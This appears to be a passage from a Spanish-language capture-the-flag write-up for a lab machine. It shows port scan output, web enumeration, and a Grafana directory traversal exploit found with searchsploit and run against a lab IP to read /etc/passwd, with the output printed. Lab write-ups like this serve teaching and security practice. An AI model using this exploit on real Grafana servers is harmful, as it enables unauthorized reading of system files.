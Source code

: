 ```
| mysql-info:
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 10
|   Capabilities flags: 65535
|   Some Capabilities: ODBCClient, LongColumnFlag, InteractiveClient, Speaks41ProtocolNew, FoundRows, LongPassword, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, IgnoreSigpipes, SupportsLoadDataLocal, SwitchToSSLAfterHandshake, SupportsTransactions, IgnoreSpaceBeforeParenthesis, SupportsCompression, Support41Auth, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults  
|   Status: Autocommit
|   Salt: &^TZ(\x05YqxR\x0EI:f\x03_cqkl
|_  Auth Plugin Name: caching_sha2_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
La máquina tiene abiertos los puertos 22 (SSH), 80 & 3000 (HTTP) y 3306 (MySQL).

# Enumeración

Al ingresar al servidor web que está alojado en el puerto ```80``` veremos esto.

<img src="ambassador-web80.png">

Si le damos a Read More, veremos esto.

<img src="read-more.png">

A simple vista no hay gran información, solamente un usuario llamado "developer".

Al ingresar al servidor web que está alojado en el puerto ```3000``` veremos esto

<img src="grafana-3000.png">

Grafana es un software libre de visualización y monitoreo de datos open-source. Permite crear paneles y tableros para representar datos de diferentes fuentes en una interfaz fácil de usar.

Si buscamos vulnerabilidades para este software "Grafana v8.2.0", encontraremos una que se adapta a esta versión.


```sh
$ searchsploit grafana
------------------------------------------------------------ ---------------------------  
Exploit Title                                               | Path
------------------------------------------------------------ ---------------------------
Grafana 7.0.1 - Denial of Service (PoC)                     | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read | multiple/webapps/50581.py
------------------------------------------------------------ ---------------------------
```

Se trata de un "Directory Traversal", vamos a descargarnos este exploit y a ejecutarlo

```
$ python3 50581.py -H http://10.10.11.183:3000

Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```